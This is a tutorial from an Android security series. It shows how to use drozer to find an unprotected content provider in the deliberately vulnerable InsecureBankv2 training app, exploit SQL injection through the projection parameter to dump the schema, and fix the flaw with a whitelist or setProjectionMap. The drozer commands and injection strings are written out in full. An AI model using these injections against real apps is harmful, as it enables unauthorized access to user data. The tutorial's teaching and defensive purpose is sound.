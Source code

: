 ```yaml
---
layout: default
title: Vulnerable Android Content Providers
description: Learn Android Security. Identify and fix security vulnerabilities in Android content provider implementations
permalink: /android/security/:title
last_modified_at: 2017-2-4
---
```

{% include android-app-security-series-intro.html %}

### Prerequisites 

* [InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2) installed on Android device or emulator
* [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) agent installed on Android device or emulator
* Drozer console runs and connected to drozer agent

### Getting information

Let's use [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) to determine content providers that InsecureBank application exports:

```
dz> run app.provider.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  Authority: com.android.insecurebankv2.TrackUserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False
```

As seen from the above output, there is one content provider which is not protected by a permission. This means that any application on the same device can read and write to that provider. Let's determine what data does the given provider deal with. Usually, content providers use either SQLite databases or files as an underneath data storage with which they operate. In case of an SQLite database, content providers may be vulnerable to SQL injection vulnerabilities. The next step going forward is to determine which URIs does the provider deal with. We can do this by inspecting a reversed engineered source code of an application, or by using a dedicated drozer command (in a real world scenario, we would probably do both just to be on the safe side):

```
dz> run app.provider.finduri com.android.insecurebankv2
Scanning com.android.insecurebankv2...
content://com.android.insecurebankv2.TrackUserContentProvider/
content://com.google.android.gms.games
content://com.android.insecurebankv2.TrackUserContentProvider
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.google.android.gms.games/
```

Next, we need to find if drozer found actual URIs. So, let's try queyring those URIs that deal with application:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/
Unknown URI content://com.android.insecurebankv2.TrackUserContentProvider/
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
| id | name   |
| 1  | dinesh |
```

We did not have luck with the first one, but we were able to successfully retrieve the content of `content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`, which, apparently, shows us users that have used an application. 

### Exploit

Let's determine now if that content provider is vulnerable to SQL injection. As specified in Android [content providers documentation](https://developer.android.com/guide/topics/providers/content-provider-basics.html#Query), when constructing a query, projection defines which columns should be returned. This is where we can try to inject control character `'` to determine whether provider is vulnerable:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "'"
unrecognized token: "' FROM names ORDER BY name" (code 1): , while compiling: SELECT ' FROM names ORDER BY name
```

As you can see, `'` token was used when constructing our query and that resulted in a SQL error. This means that our input was passed to SQL unsanitized. Now, let's try to determine if we can actually determine the structure of a database by constructing more elaborate injection:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "* from sqlite_master --"
| type  | name             | tbl_name         | rootpage | sql                                                                            |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                    |
| table | names            | names            | 4        | CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                         |
```

In the above attack we used string `* from sqlite_master --` effectively turning the query that was executed into `SELECT * from sqlite_master`, which just gave us all tables in the underlying database.

As a side note, we will mention that drozer even has a dedicated command to execute similar type of an attack:

```
dz> run scanner.provider.sqltables -a content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers:
  android_metadata
  names
  sqlite_sequence
```

### Fix

Proper design should always start with a discussion whether there is a legitimate need to export a given content provider, and then, what would be proper permissions to protect it (Hint: Use _signature_ permission to prevent other apps not developed by you from communicating with your app). But we already spent some time with the topic of permissions in one of the previous posts, so, let's try to see how to avoid SQL injection per se. 

When discussing the topic of SQL injection, it is almost customary to introduce a vulnerability by doing string concatenation. However, when we open a code of `TrackUserContentProvider`, we will see that this is not the case:

```
public Cursor query(Uri uri, String[] projection, String selection,	String[] selectionArgs, String sortOrder) {
		SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
		qb.setTables(TABLE_NAME);
		
		switch (uriMatcher.match(uri)) {
			case uriCode:
				qb.setProjectionMap(values);
				break;
			default:
				throw new IllegalArgumentException("Unknown URI " + uri);
		}
		if (sortOrder == null || sortOrder == "") {
			sortOrder = name;
		}
		Cursor c = qb.query(db, projection, selection, selectionArgs, null, null, sortOrder);
		
		// ...
	}
```

The developer used a class `SQLiteQueryBuilder` from class library, and called `query` method on it passing `projection` parameter received from the caller. So, let's look into the [source code of this class](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/database/sqlite/SQLiteQueryBuilder.java). At the time when I checked (January 2017), the `query` method had the following comment which indicated about protection against SQL injection in `selection` parameter:

```
// Validate the user-supplied selection to detect syntactic anomalies
// in the selection string that could indicate a SQL injection attempt.
```

So, there is a protection against injection in `selection` parameter. But what about `projection` parameter?! Turns out, more work is needed from the consumer of that API. 

There seems to be two ways how to deal with it. The first way that comes into mind is to do a whitelisting of fields that we allow to query. After all, `projection` parameter defines fields that may exist in the database, so, we can check whether the parameter contains legitimate fields before continuing with the query. Here is an example code one might add to the beginning of `query` method:

```
HashSet<String> validProjections = new HashSet<>(Arrays.asList("id", "name"));
for (String p : projection) {
    if (!validProjections.contains(p)) throw new IllegalArgumentException("Unknown projection: " + projection);
}
```

For our fix, we will choose another way by using `setProjectionMap` method from `SQLiteQueryBuilder` class. As stated in the [documentation](https://developer.android.com/reference/android/database/sqlite/SQLiteQueryBuilder.html#setProjectionMap(java.util.Map%3Cjava.lang.String,%20java.lang.String%3E)),

> If a projection map is set it must contain all column names the user may request, even if the key and value are the same.

`TrackUserContentProvider` already has a static `values` HashMap that is being used in the following method call:

```
qb.setProjectionMap(values);
```

The problem is that `values` HashMap is never populated. Let's add to it two possible columns that can exist in table `names`: `id` and `name` (Note, that since we don't specify a mapping between user provided names and database names, we use the same strings for keys and values in the HashMap):

```
values = new HashMap<>();
values.put("id", "id");
values.put("name", "name");
```

When we recompile our application and send it to the device, we will see that SQL injection does not work anymore:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "'"
Invalid column '
```

### Summary

In this post we looked at exploiting SQL injection in unsecured content provider. We also showed how to fix this vulnerability either by introducing whitelisting or using a method from the framework.
